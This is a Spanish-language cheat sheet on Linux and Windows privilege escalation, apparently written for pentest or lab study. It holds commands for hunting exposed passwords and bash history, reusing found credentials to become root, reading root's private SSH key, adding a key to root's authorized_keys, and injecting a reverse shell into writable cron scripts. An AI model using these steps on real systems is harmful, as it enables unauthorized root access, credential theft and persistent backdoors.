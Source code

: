 # Escalada de Privilegios (Resumen)

## 1) Recursos de enumeración
- **HackTricks**: checklist Linux y Windows → https://book.hacktricks.xyz  
- **PayloadsAllTheThings**: cheatsheets PrivEsc.  
- Scripts útiles:
  - **Linux**: LinEnum, linuxprivchecker, **LinPEAS**
  - **Windows**: Seatbelt, JAWS, **WinPEAS**

Ejemplo ejecutar LinPEAS:
```bash
./linpeas.sh
```

---

## 2) Exploits del Kernel
- Buscar versión del SO (ej. `uname -a` o salida LinPEAS)  
- Consultar CVEs en Google / searchsploit.  
Ejemplo:
```bash
searchsploit dirtycow
```
> ⚠️ Exploits de kernel pueden causar inestabilidad → probar en lab.

---

## 3) Software vulnerable
- Listar programas instalados:
```bash
dpkg -l         # Linux
dir "C:\Program Files"   # Windows
```
- Buscar exploits para software viejo.

---

## 4) Privilegios de usuario
### Comprobar sudo
```bash
sudo -l
```

Ejemplo salida:
```
(user1) (ALL : ALL) ALL
```
Elevar privilegio:
```bash
sudo su -
whoami     # → root
```

Ejemplo NOPASSWD:
```bash
sudo -l
(user1) NOPASSWD: /bin/echo
sudo -u user /bin/echo Hello
```

> Usa **GTFOBins** (Linux) o **LOLBAS** (Windows) para explotar binarios con privilegios.

---

## 5) Tareas programadas / Cron
- Revisa directorios cron editables:
```
/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root
```
> Si hay permisos de escritura → inyectar reverse shell en el script.

---

## 6) Credenciales expuestas
- Buscar en archivos comunes:
```bash
grep -Ri "password" /var/www/html
cat ~/.bash_history
```
Ejemplo hallazgo:
```
/var/www/html/config.php: $conn = new mysqli(localhost, 'db_user', 'password123');
```
> Reusar credenciales:
```bash
su -
# pass: password123
whoami   # → root
```

---

## 7) Claves SSH
- Ubicación:
```
/home/user/.ssh/id_rsa
/root/.ssh/id_rsa
```

Copiar clave privada y ajustar permisos:
```bash
chmod 600 id_rsa
ssh root@10.10.10.10 -i id_rsa
```

Generar nueva clave:
```bash
ssh-keygen -f key
```
Subir pública a `authorized_keys` en víctima:
```bash
echo "ssh-rsa AAAA... user@parrot" >> /root/.ssh/authorized_keys
ssh root@10.10.10.10 -i key
```

---

## 8) Tips
- Enumera primero con **scripts** o manual.  
- **Explota**: kernel viejo, sudo, SUID, cron, credenciales, ssh keys.  
- Usa **GTFOBins/LOLBAS** para encontrar comandos aprovechables.  
